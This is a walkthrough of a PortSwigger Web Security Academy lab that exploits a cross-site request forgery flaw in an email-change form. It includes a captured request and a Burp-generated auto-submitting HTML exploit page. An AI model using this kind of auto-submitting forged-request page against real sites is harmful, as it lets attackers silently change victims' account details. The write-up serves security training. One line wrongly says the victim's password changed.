




## Lab Description :


## Solution :
Clicking on My Account page takes us to a login page where we can login as as wiener using his credentials given -wiener:peter.

Once logged in, we can update the email of wiener,



Capture the request in burp.

```html
POST /my-account/change-email HTTP/1.1
Host: 0a83002103896297800267e6008600e1.web-security-academy.net
Cookie: session=vRoCEHdO9cE1ZP57WjbaYggaT9pMjztL
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: https://0a83002103896297800267e6008600e1.web-security-academy.net
Referer: https://0a83002103896297800267e6008600e1.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=wiener%40user.net
```

Here there is no CSEF protection ie (No CSRF token or Samesite cookies). There might be some referrer header validation but I don't think it is implemented in the first lab itself. Let test for CSRF vulnerability in this update email feature.

We need to create a HTML script which has a autosubmit script. So change the email parameter value to some random id ie - email=test@test.net

Right click on the request& select Engagement Tools -> CSRF POC generator .



Enable Include autosubmit script & click on Regenerate to get the custom malicious HTML page.

Now we got our HTML exploit .

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a83002103896297800267e6008600e1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Go to exploit server & upload the HTML in the body .



Finally click Deliver exploit to victim.


This tells us that the victim user clicked on the malicious page which we created & it changed it password automatically .

When a victim clicks on the link to our page, since it has autosubmit script enabled, the victim's browser automatically adds his session cookie and performs the request . Thus as a result is changed to what the attacker wanted it to be . IN this case it is test@test.com

#### Visit The Next Page For The Next Level :)
